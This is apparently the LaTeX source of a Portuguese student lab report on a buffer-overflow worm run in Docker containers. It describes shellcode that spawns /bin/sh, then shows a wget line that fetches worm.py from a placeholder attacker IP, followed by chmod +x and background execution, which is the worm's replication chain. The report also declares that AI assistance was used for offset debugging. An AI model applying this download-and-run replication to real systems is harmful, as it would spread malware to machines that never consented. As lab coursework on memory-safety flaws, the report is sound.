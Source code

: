 \documentclass{article}
\begin{document}
\subsection{Injeção e Replicação}
O \textit{shellcode} injetado no final da sequência aciona uma \textit{syscall execve} executando o \texttt{/bin/sh}. A carga entregou comandos não interativos com três propósitos:
\begin{itemize}
    \item Gravar a \textit{flag} de verificação de infecção (\texttt{echo 'true' > infectado.txt}).
    \item Realizar o download silencioso do próprio script malicioso, servido via \texttt{http.server} instanciado pelo nó atacante (\texttt{wget http://[IP\_ATACANTE]:8080/worm.py}).
    \item Conceder privilégios de execução (\texttt{chmod +x}) e disparar a nova instância viral em \textit{background} (\texttt{\&}).
\end{itemize}

\section{Validação e Conclusão}
A eficácia do \textit{Worm} foi confirmada monitorando-se remotamente o estado interno das vítimas (ex: via \texttt{docker exec vitima\_14}). O arquivo \texttt{infectado.txt} validou o valor \texttt{true}, ratificando o desvio no fluxo de execução imposto pelo transbordamento. O experimento consolida empiricamente as ameaças representadas por falhas de gerenciamento de memória em linguagens de baixo nível e ilustra a viabilidade matemática e arquitetural da propagação automatizada de \textit{malwares}.

\section{Declaração de Uso de Inteligência Artificial}
Declaro o uso de ferramentas de Inteligência Artificial Generativa como assistentes educacionais para o desenvolvimento desta atividade laboratorial. O auxílio concentrou-se no processo de \textit{troubleshooting} para refinamento empírico de distanciamento de memória (\textit{offset}) utilizando o GNU Debugger, na modularização das rotinas de captura de \textit{stdout} (\textit{Info Leak}) via biblioteca \texttt{subprocess} do Python e na revisão estrutural/tipográfica deste relatório em \LaTeX. A engenharia dos \textit{payloads}, o mapeamento da rede e as validações diretas no ambiente conteinerizado foram processadas de modo autoral.
\end{document}
